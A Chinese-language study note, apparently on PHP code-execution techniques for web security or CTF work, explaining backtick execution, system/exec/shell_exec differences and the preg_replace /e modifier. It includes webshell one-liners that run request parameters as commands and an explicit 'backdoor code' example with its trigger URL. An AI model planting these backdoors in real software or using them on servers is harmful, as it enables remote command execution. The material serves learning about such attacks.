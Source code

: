 反引号 ` 可以调用 shell_exec 正常执行代码

```powershell
`$_GET[v]` 相当于 shell_exec($_GET['v'])

`$_GET['v']` 变量 v 前后不能有单引号
```

system，exec，shell_exec 的区别

```powershell
system()
$last_line = system('ls'，$return_var);
system()会将输出内容直接印出，所以若于网页，会将所有回传内容都显示于页面上。
$last_line：只能取得最后一行的内容
$return_var：取得系统状态回传码

exec()
exec('ls'，$output，$return_var);
$output：回传内容都会存于此变数中(储存成阵列)，不会直接秀在页面上。
$return_var：取得系统状态回传码

shell_exec()
$output = shell_exec('ls');
$output：回传内容都会存于此变量中(储存成纯文字内容)，不会直接显示在页面上。
```

## preg_replace()

触发条件：

```
第一个参数需要e标识符，有了它可以执行第二个参数的命令
第一个参数需要在第三个参数中的中有匹配，不然echo会返回第三个参数而不执行命令，举个例子：
12
// 这样是可以执行命令的
echo preg_replace('/test/e', 'phpinfo()', 'just test');
 
// 这种没有匹配上，所以返回值是第三个参数，不会执行命令
echo preg_replace('/test/e', 'phpinfo()', 'just tesxt');
```

我们可以构造这样的后门代码

```powershell
@preg_replace("//e", $_GET['h'], "Access Denied");  
echo preg_replace("/test/e", $_GET["h"], "jutst test");
```

当访问这样这样的链接时就可以被触发

```powershell
http://localhost:8000/testbug.php?h=phpinfo();
```

# 伪协议
